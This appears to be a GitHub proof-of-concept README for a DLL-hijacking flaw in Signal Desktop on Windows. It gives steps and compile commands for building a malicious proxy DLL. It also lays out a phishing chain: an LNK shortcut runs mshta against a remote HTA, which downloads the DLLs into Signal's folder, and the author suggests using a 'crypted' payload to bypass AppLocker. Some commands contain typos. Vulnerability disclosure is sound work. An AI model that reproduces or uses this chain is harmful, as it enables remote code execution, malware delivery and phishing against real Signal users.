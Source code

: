# CVE-2023-XXXXX
## CVE Description

# Steps to Replicate
1. First, create a malicious DLL. Signal references a bunch of non-existent DLLs, so for this example, I used `cryptbase.dll`. You can use [this repository](https://github.com/tothi/dll-hijack-by-proxying) to build the DLL, but I'll simplify the steps for you:
   * Clone the repo.
   * Modify the `payload.c` file as you see fit.
   * Copy `C:\Windows\System32\cryptbase.dll` into the `dll-hijack-by-proxying` directory as `cryptbase_original.dll`.
   * Create the exports using the `gen_def.py` script in the `dll-hijack-by-proxying` directory.

    ```
    python3 gen_def.py cryptbase_orig.dll > cryptbase.def
    ```
   
   * Run the following command if you're compiling for x64 Windows:

    ```
    compilex86_64-w64-mingw32-gcc -shared -o cryptbase.dll cryptbase.c cryptbase.def -s
    ```

2. Now you've got your malicious DLL. Copy `cryptbase.dll` and `cryptbase_orig.dll` into the `%LocalAppData\Programs\signal-desktop` folder.
3. Run Signal, and the code will execute. Here's a cute calculator PoC example:
   
    ![Calculator PoC](placeholder)

# Turning up the Heat
If you're like me, simply popping the calculator isn't enough. Let's chain this as an LNK -> HTA -> Your Payload. I mean, local vulnerabilities are totally not exploitable...right....right??? In all actuality, the argument would be that a user who clicks an emailed LNK could easily click another payload. That's not the point. Signal references non-existent DLL files, and you can chain this against as a bypass against something like AppLocker or a default deny tool, leveraging the trust of the product as a "safe" messenger. Anyway, let's get to it.

1. Create an LNK shortcut, and change the target to the following:

    ```
    C:\Windows\System32\mshta.exe https://yourdomain/poc.hta
    ```

    It should look something like this:
   
    ![LNK PoC](placeholder)

2. Host your `cryptbase.dll` and `cryptbase_orig.dll` files.
3. Modify the code in the `poc.hta` file within this GitHub repo to utilize the URLs of your hosted DLL files.
4. Host the HTA on your domain.
5. Run the LNK shortcut and watch as the DLL files are dropped into the `%LocalAppData\Programs\signal-desktop` folder.
6. Now, when the victim runs Signal, your malicious DLL will run. Phishing ftw.
7. You can use whatever you want, but for a quick test, I hosted an HTA server to see if my HTA would drop the DLLs that execute an HTA LOL, so in my case, the chain was LNK -> HTA drops DLLs -> User runs Signal -> DLL executes remote HTA. In a non-poc scenario, I'd swap the HTA payload out with a crypted DLL, which would be better.
   
    ![RCE Proof](placeholder)
